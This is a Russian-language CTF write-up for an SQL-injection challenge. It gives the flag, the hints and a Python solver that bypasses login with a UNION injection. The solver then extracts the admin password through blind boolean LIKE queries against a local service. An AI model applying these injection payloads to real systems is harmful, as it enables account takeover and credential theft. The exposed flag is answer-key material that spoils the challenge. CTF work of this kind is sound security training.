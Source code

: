 # Название: So Qomplicated Language
#### Флаг: **CTF{y0u_w1ll_n3v3r_l1ke_sql_aga1n}**
### ВЫДАТЬ УЧАСТНИКАМ sources.zip
## Описание
Мы слишком очень много всё переусложнили...
### Хинты
* UNION?
* i LIKE %%%%% UNION и еще люблю очень много раз сравнивать символы (казалось бы, зачем?)
### Решение
Вход: Видим SQL-инъекцию в поле username, но password в sql не вставляется. Можем вернуть фейковый пароль через UNION.  
Получение флага: видим, что флаг находится в пароле юзера admin_[рандомная строка]. Получить можем его через LIKE 'admin%' (берёт строки, начинающиеся с admin, а админ по коду сервиса всего один).
Но вывода у нас нет. Поэтому кидаем результат от сравнения символов в список персонала и таким образом получаем обратную связь.  
Решение на python:
```python
import string

import requests

s = requests.Session()

s.post('http://127.0.0.1:6107/login', data={
    'username': """nonexistentuser' UNION SELECT "fakepassword" -- """,
    'password': 'fakepassword',
})

print('1. Логинимся, "подсовывая" свой пароль в SQL-транзакцию')
print('Получены cookies:')
print(s.cookies)
print()


def latest_resp():
    d = s.get('http://127.0.0.1:6107/')
    found = None
    for line in d.text.splitlines(keepends=False):
        if '<td>' in line:
            found = line
    found = found.replace('<td>', '').replace('</td>', '').replace(' ', '').replace('   ', '')
    return bool(int(found))


def send_request(r):
    s.post('http://127.0.0.1:6107/add', data={
        'name': r,
    })


print('2. Подбираем пароль по символу')


def one_step(src):
    base_query = """b' LIKE 'a' OR ((SELECT password FROM users WHERE username LIKE 'admin%') LIKE '[REPL]%')) --  """
    LETT = None
    for letter in string.ascii_letters + string.digits + r"""!"#$&'()*+,-./:;<=>?@[\]^`{|}~_""":  # все из string.punctuation кроме % (спецсимвол) и _ перенесли в конец
        query = base_query.replace('[REPL]', src + letter)
        send_request(query)
        if latest_resp():
            LETT = letter
            break
    return LETT


src0 = ""
while True:
    src0 += one_step(src0)
    print(src0)
```
Запустим решение:
![](solver_script.png)